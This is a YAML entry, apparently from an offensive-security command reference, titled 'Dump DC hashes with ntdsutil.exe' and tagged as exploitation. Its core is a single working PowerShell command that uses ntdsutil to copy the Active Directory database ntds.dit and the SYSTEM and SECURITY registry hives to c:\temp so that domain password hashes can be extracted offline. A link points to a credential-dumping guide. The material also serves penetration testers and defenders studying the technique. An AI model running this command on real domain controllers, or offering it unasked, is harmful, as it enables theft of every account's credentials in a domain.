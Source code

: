 ```yaml
---
title: |
  Dump DC hashes with ntdsutil.exe
description: |
  If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using ntdsutil.exe. The ntds.dit and SYSTEM as well as SECURITY registry hives are dumped to c:\temp.

command: |
  powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
items:
  - No_Creds
  - Shell
services:
  - Kerberos
  - NTLM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration
---
```

